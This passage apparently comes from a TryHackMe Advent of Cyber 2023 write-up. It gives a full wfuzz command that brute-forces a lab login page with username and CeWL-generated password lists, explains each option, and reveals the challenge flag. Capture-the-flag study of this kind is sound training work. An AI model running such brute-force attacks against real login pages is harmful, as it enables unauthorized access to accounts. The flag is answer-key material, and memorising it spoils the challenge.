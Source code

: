 The command we use is `$ wfuzz -c -z file,usrnms.txt -z file,pswd.txt --hs "Please enter the correct credentials" -u http://10.10.138.243/login.php -d "username=FUZZ&password=FUZ2Z"`


   1. -z file,usrnms.txt loads the usernames list.
   2. -z file,pswd.txt uses the password list generated by CeWL.
   
  3. --hs "Please enter the correct credentials" hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.
  
   4.  -u specifies the target URL.

  5. -d "username=FUZZ&password=FUZ2Z" provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.

We get the output as 

![image](https://github.com/vishwatejD/advent-of-cyber-2023/assets/141154035/f1b27f83-2995-42ff-8ca4-0e75b573aa4b)

Now we enter these credentials and retrieve the flag 
![image](https://github.com/vishwatejD/advent-of-cyber-2023/assets/141154035/aa0743d4-8523-40ee-b1ae-82351d2c5435)

Flag:- THM{m3rrY4nt4rct1crAft$}
